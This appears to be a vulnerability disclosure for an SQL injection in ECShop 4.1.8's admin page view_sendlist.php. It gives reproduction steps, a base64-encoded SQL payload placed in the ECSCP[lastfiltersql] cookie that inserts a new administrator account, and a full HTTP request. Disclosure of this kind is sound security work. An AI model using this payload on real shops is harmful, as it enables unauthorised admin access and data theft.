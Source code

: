 # ecshop

ECSHOP, 4.1.8, SQL Injection

Vulnerabilities Reproduction:

1. Log in to the backend, visit the view_ sendlist.php, and then capture the packet.

2. Enter the SQL statement to be executed, and then convert it into base64 encoding. Here we take adding the test administrator user as an example.
   
<img width="415" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/235fd585-510c-48a4-b749-163d3765b972">

Here is the base64 encoding.
aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=

3. Get the value of ECSCP[lastfilterfile], here is F8F2F4EC.

4. Send the request package, and replace the previous cookie, or  just add the following string to the original cookie.
act=query&uselastfilter=1
ECSCP[lastfiltersql]=aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=;ECSCP[lastfilterfile]=F8F2F4EC;
Successfully executed SQL statement.

GET /ECShop_V4.1.13/ECShop/source/ecshop/admin/view_sendlist.php?act=query&uselastfilter=1 HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: loginNum=4; ECS_LastCheckOrder=Wed%2C%2011%20Jan%202023%2014%3A38%3A48%20GMT; ECS[visit_times]=13; Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1672820048; PHPSESSID=c80bf1de9332905dbf330e4fc2929cc4; JSESSIONID=7BAE8239C62E8C6B4AC401F85773ACED; ECSCP_ID=d9c053c22fb93a4801ea199b40025da9ec8286d3;ECSCP[lastfiltersql]=aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=;ECSCP[lastfilterfile]=F8F2F4EC;
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

<img width="484" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/165d612d-27e7-4d54-9ac8-0e4cac2e9b68">

<img width="489" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/43846d1c-9192-415f-a0fa-9335f730d9e2">


4. Refresh the database and find that the user is successfully added, or the logged-in user finds that he can also log in successfully.
   <img width="752" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/f4c894ca-e513-4499-b0a1-ee64c01dac15">

 

